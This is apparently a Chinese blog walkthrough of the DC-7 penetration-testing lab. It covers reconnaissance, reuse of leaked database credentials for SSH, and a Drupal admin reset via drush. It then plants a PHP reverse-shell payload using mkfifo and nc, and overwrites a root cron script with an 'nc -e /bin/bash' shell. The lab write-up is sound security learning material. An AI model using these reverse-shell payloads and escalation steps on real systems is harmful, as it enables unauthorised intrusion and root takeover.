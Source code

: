 ```yaml
---
layout: post
title: DC-7
subtitle: DC-7
date: 2025-07-16 09:47
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

## 信息搜集

ip扫描发现 `192.168.163.131`

![image.png](https://img.ghostliner.top/8pzokb.png)

nmap扫描端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/7M8xan.png)

访问站点发现特殊字符串

![image.png](https://img.ghostliner.top/RdFxZA.png)

必应搜索 `DC7USER` 发现GitHub项目 `staffdb`
[Dc7User/staffdb](https://github.com/Dc7User/staffdb)

在配置文件中发现mysql数据库连接配置

![image.png](https://img.ghostliner.top/EfjNcG.png)

```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

## 渗透测试

使用该用户名密码进行SSH连接，成功

查看目录，发现mbox邮件文件和网站备份文件

![image.png](https://img.ghostliner.top/LC5ABy.png)

查看mbox文件，发现定时执行脚本：`/opt/scripts/backups.sh`

查看 `/var/mail/dc7user` 文件，发现自动化任务间隔15分钟

![image.png](https://img.ghostliner.top/WVsmvH.png)

查看脚本权限，发现当前用户无法写入，但是 `www-data`可以

![image.png](https://img.ghostliner.top/OoOhy8.png)

查看脚本内容：

```shell
#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz
```

发现drush命令：[dupal 瑞士军刀：drush 命令大全](https://www.dwoke.com/node/436)

### 用户提权

尝试www-data用户提权

```shell
cd /var/www/html
# 更改admin用户密码
drush user-password admin --password="admin"
```

![image.png](https://img.ghostliner.top/pDzFGN.png)

网站登录成功，尝试反弹shell获取 `www-data`用户权限，以更改 `backups.sh`脚本

安装插件： <https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz>

![image.png](https://img.ghostliner.top/yk1FYQ.png)

开启插件
![image.png](https://img.ghostliner.top/E4bbaT.png)

勾选，点击页面最下方 `install`

### 反弹shell

在文章中添加脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 >/tmp/f');?>
```

![image.png](https://img.ghostliner.top/CxupAM.png)

反弹shell成功，编辑 `/opt/scripts/backups.sh` 文件

```shell
echo "nc -nv 192.168.163.132 5555 -e /bin/bash" >/opt/scripts/backups.sh
```

反弹shell成功，获取到root权限

![image.png](https://img.ghostliner.top/2aDj41.png)

### 查看flag

```shell
python -c "import pty;pty.spawn('/bin/bash')"
cat /root/theflag.txt
```

![image.png](https://img.ghostliner.top/tX2DGp.png)
